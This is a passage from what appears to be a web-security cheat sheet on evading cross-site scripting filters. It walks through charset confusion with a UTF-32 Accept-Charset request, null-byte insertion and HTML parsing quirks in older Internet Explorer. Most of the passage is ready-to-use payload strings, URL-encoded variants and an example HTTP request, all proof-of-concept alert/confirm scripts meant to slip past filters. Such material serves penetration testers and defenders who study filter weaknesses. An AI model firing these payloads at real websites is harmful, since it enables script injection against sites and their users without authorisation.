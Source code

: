 **Charset Bugs:**

* We can try changing charset header to higher Unicode \(eg. UTF-32\) and test payloads.
* When the site decodes the string, the payload gets triggered.

Example request:

```text
GET /page.php?p=∀㸀㰀script㸀alert(1)㰀/script㸀 HTTP/1.1
Host: site.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/32.0
Accept-Charset:utf-32; q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

When the site loads, it will be encoded to the UTF-32 encoding that we set, and then as the output encoding of the page is UTF-8, it will be rendered as: `"<script>alert (1) </ script>` which will trigger XSS.

Final URL encoded payload:

```text
%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
```

**Null Bytes:**

* The null bytes are commonly used as string terminator.
* This can help us evade many web application filters in case they are not filtering out the null bytes.

Payload examples:

```text
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```

**Standard**: `<a href="javascript:alert()">`  
**Obfuscated**: `<a href="ja0x09vas0x0A0x0Dcript:alert(1)">clickme</a>`  
**Variant**: `<a 0x00 href="javascript:alert(1)">clickme</a>`

**Parsing Bugs:**

* RFC states that NodeNames cannot begin with whitespace.
* But we can use special chars like `%`, `//`, `!`, `?`, etc.

Examples:

* `<// style=x:expression\28write(1)\29>` - Works upto IE7 _\(_[_Source_](http://html5sec.org/#71)_\)_
* `<!--[if]><script>alert(1)</script -->` - Works upto IE9 _\(_[_Reference_](http://html5sec.org/#115)_\)_
* `<?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/>` - Works in IE7 _\(_[_Reference_](http://html5sec.org/#77)_\)_
* `<%div%20style=xss:expression(prompt(1))>` - Works Upto IE7
